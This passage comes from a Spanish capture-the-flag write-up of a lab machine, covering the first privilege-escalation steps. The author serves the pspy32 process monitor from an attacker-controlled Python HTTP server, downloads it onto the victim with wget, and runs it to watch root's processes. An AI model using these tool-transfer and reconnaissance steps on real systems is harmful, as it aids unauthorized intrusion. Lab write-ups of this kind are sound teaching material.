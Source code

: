 ```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
mindy
```

`Imprimimos` el `PATH` en nuestra máquina

```
# echo $PATH            
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/snap/bin:/home/mindy/.local/bin
```

`Exportamos` el `PATH` a la máquina víctima 

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/home$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:/snap/bin:/home/mindy/.local/bin
```
## Privilege Escalation

Nos `montamos` un `servidor http` con `python` en nuestra máquina para transferir el `pspy32` a la máquina víctima [https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1](https://github.com/DominicBreuker/pspy/releases/tag/v1.2.1). Vamos a `analizar` los `procesos` del `sistema`

```
# python -m http.server 80
```

Nos `descargamos` el `pspy32`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ wget http://10.10.16.35/pspy32
--2024-08-02 13:17:13--  http://10.10.16.35/pspy32
Connecting to 10.10.16.35:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3104768 (3.0M) [application/octet-stream]
Saving to: ‘pspy32’

pspy64                                        100%[================================================================================================>]   2.96M   865KB/s    in 3.6s    

2024-08-02 13:17:17 (834 KB/s) - ‘pspy32’ saved [3104768/3104768]
```

`Ejecutamos pspy` y encontramos que el usuario `root` está `ejecutando` un `script` que se encuentra en `/opt`

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ ./pspy32
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
```